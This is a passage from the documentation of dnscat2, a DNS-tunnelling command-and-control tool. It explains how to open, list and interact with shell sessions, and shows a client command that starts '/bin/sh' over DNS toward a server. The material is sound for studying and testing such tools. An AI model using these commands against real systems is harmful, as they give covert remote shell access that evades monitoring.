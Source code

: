     dnscat [command: 28993]> shell
    Sent request to execute a shell
    dnscat [command: 28993]>
    New session established: 22670
    dnscat [command: 28993]> sessions
    Sessions:
    
    command window
     session 28993 :: command (default) <-- You are here!
     session 22670 [*] :: sh

If you want to go "back" to a parent session, use either ctrl-z or the
"back" command:

    dnscat [command: 28993]> back
    
    dnscat2>

Note that some sessions have `[*]` - that means that there's been
activity since the last time we looked at them.

When you interact with a session, the interface will look different
depending on the session type. As you saw with the default session type
(command sessions) you get a UI just like the top-level virtual session
(you can type 'help' or run commands or whatever). However, if you
interact with a 'shell' session, you won't see much immediately,
until you type a command:

    dnscat2> session -i 22670
    
    Welcome to session 22670! If it's a shell session and you're not seeing
    output, try typing "pwd" or something!
    
    pwd
    /home/ron/tools/dnscat2/client

To escape this, you can use ctrl-z or type "exit" (which will kill the
session).

You can start a shell directly by running the dnscat2 client with the
--exec flag:

    $ ./dnscat --exec /bin/sh --dns server=localhost,port=53531

On the server, you'll see a session created as usual:

    dnscat2>
    New session established: 1387
    
    Unknown command: sessoin
    dnscat2> sessions
    command window <-- You are here!
     session 28993 :: command (default)
     session 22670 :: sh
     session 1387 [*] :: /bin/sh

And you can interact with it as normal:

    dnscat2> session -i $newest
    